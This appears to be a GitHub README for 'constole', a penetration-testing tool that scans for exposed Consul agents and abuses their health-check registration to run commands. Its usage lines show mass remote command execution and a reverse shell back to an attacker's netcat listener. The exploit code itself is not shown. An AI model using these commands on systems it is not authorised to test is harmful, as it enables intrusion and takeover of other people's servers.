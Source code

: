 ## Overview
Scan for Consul agents and exploit them to gain shell.
I've been messing around with Consul and while reading the API, found the service registration endpoint.
Registrations feature check functionality, which is typically used to provide health checks on nodes.
A check can be an external application or script, which performs some kind of health check and provides some form of output.
Essentially, this can be any script you define to run at certain time intervals.

### Setup
```
pip install -r requirements.txt
```

### Usage
To scan for hosts running vulnerable Consul agent services, you can provide an comma-separated list with host:port,host:port,...,etc or an input file.
```
python constole.py --targets '10.50.30.1:8500,10.50.30.2:8500'
python constole.py --infile mytargets.txt
```
Remote Code Execution can be achieved across multiple hosts as follows:
```
python constole.py --infile mytargets.txt --cmd 'my command to run'
```
To obtain a reverse shell from the vulnerable host, start a netcat listener on your desired port and select a single target:
```
python constole.py --targets 10.50.30.1:8500 --lhost my_ip_address --lport my_listening_nc_port
```
Note that Constole will automatically try to deregister the service, after a time period, to assist in clean up during testing.
